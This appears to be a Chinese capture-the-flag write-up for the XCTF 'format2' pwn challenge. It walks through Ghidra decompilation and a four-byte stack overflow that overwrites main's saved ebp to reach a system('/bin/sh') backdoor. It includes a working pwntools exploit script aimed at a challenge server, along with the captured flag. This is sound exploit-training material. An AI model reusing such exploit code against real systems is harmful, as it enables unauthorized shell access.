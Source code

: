 # format2

[题目地址](https://adworld.xctf.org.cn/challenges/details?hash=5756e556-806f-4144-82f6-0b1183e9a0a0_2&task_category_id=2)

看到题目我以为是个格式化字符串，结果是栈溢出。

不知道为啥，附件给的程序ghidra反编译了很久，还好有用的部分不多。

```c
undefined4 main(void)
{
  bool bVar1;
  undefined3 extraout_var;
  void *local_38;
  char local_32 [30];
  uint local_14;
  memset(local_32,0,0x1e);
  setvbuf((FILE *)stdout,(char *)0x0,2,0);
  setvbuf((FILE *)stdin,(char *)0x0,1,0);
  printf("Authenticate : ");
  __isoc99_scanf("%30s");
  memset(input,0,12);
  local_38 = (void *)0x0;
  local_14 = Base64Decode(local_32,&local_38);
  if (local_14 < 13) {
    memcpy(input,local_38,local_14);
    bVar1 = auth(local_14);
    if (CONCAT31(extraout_var,bVar1) == 1) {
      correct();
    }
  }
  else {
    puts("Wrong Length");
  }
  return 0;
}
```

目标肯定是那个correct函数了。往上看，要求auth函数返回1。看看是啥。

```c
bool auth(size_t param_1)
{
  int iVar1;
  undefined local_18 [8];
  char *local_10;
  undefined auStack12 [8];
  memcpy(auStack12,input,param_1);
  local_10 = (char *)calc_md5(local_18,0xc);
  printf("hash : %s\n",local_10);
  iVar1 = strcmp("f87cd601aa7fedca99018a8be88eda34",local_10);
  return iVar1 == 0;
}
```

calc_md5不用进去看了，肯定是md5加密的，无法逆向。虽然得到了期望值的md5,但是碰撞还是很难的。不如仔细看看传进这个函数里的值是什么。param_1在main函数中对应local_14,local_14应该是我们的输入base64解密后的长度，最大12。12？再回到auth，发现有一句memcpy(auStack12,input,param_1);。auStack12长度为8，意味着memcpy拷贝过去后有4字节会溢出。到了本题的关键点了。

假如我们可以溢出8个字节，这题就非常简单了。因为程序中有现成的后门函数，就是correct。

```c
void correct(void)
{
  if (input._0_4_ == -0x21524111) {
    puts("Congratulation! you are good!");
    system("/bin/sh");
  }
                    /* WARNING: Subroutine does not return */
  exit(0);
}
```

溢出8个字节可以直接覆盖返回地址，但溢出4个字节只能覆盖ebp。平时我们都是直接扔掉ebp，填充一些垃圾字节，但这道题有大用处。一个关于汇编的小问题：这个在栈上的ebp是谁的？不是auth的，因为auth自己的ebp目前被寄存器ebp存着（注意栈上的ebp只是个值，不是寄存器），因此栈上的ebp是main的。合理，因为在函数执行结束后要把调用函数的ebp复原，故把值存在栈上。看一下函数头和尾的汇编代码就能知道了。

- push ebp  
mov esp,ebp  
sub esp,0x28

- mov esp,ebp  
pop ebp 

因此把栈上存的ebp覆盖后其实改变的是main函数的ebp。当main函数执行完后，返回调用retn指令，相当于call [ebp + 4]（这点我不确定，猜的，似乎搜不到详细内容）。那我们可以这么构造12个字节的payload：4个无用字符+system地址+input地址。input地址会被溢出到ebp，返回时返回到input地址+4，也就是system地址，成功getshell。

```python
from base64 import b64encode
from pwn import *
p=remote("61.147.171.105",53878)
system_addr=0x0804927f
input_addr=0x0811eb40
payload=b'a'*4+p32(system_addr)+p32(input_addr)
p.sendlineafter("Authenticate : ",b64encode(payload))
p.interactive()
```

system_addr注意不要直接抄system执行那句，要把传入参数的那些汇编代码也包括上，多包括一句也行。

- ### Flag
  > cyberpeace{a18ddd53b06425a34598649e0a2253d9}